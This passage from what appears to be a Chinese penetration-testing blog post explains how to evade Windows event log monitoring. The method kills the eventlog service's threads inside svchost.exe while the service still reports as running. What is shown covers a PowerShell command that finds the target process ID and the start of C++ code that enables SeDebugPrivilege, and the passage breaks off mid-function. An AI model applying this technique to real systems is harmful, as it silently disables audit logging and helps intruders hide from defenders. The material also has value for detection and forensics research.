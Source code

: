 ```yaml
---
layout: post
title: 利用API NtQueryInformationThread和I_QueryTagInformation实现对Windwos日志监控的绕过
---
```


---

## 0x00 前言
---

在上篇文章[《渗透技巧——Windows日志的删除与绕过》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E6%97%A5%E5%BF%97%E7%9A%84%E5%88%A0%E9%99%A4%E4%B8%8E%E7%BB%95%E8%BF%87/)中提到一个绕过Windows日志监控的思路：使用API NtQueryInformationThread和I_QueryTagInformation获取线程对应的服务，关闭对应日志记录功能的线程，能够破坏日志功能，并且Windows Event Log服务没有被破坏，状态仍为正在运行。本文将要对其详细介绍，分享使用c++在编写程序上需要注意的细节。

## 0x01 简介
---

本文将要介绍以下内容：

- 程序自身提权
- 遍历进程中的所有线程
- 根据线程tid，获取对应的进程pid
- 根据线程tid，获取对应的服务名称
- 结束线程

## 0x02 程序实现
---

开发工具： VS2012
开发语言： c++

### 1、定位eventlog服务对应进程svchost.exe的pid

powershell代码如下：

`Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId`

通过回显能够找出进程svchost.exe的pid

### 2、程序自身提权，以管理员权限执行

因为进程svchost.exe为系统权限，所以对其线程进行操作也需要高权限，因此，程序需要先提升至管理员权限

提权至管理员权限的代码如下：

```
BOOL SetPrivilege()  
{  
    HANDLE hToken;   
    TOKEN_PRIVILEGES NewState;   
    LUID luidPrivilegeLUID;   
    if(!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken)||!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luidPrivilegeLUID))   
    {   
        printf("SetPrivilege Error\n");  
        return FALSE;   
    }   
    NewState.PrivilegeCount = 1;   
    NewState.Privileges[0].Luid = luidPrivilegeLUID;   
    NewState.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;   
    if(!AdjustTokenPrivileges(hToken, FALSE, &NewState, NULL, NULL, NULL))  
    {  
```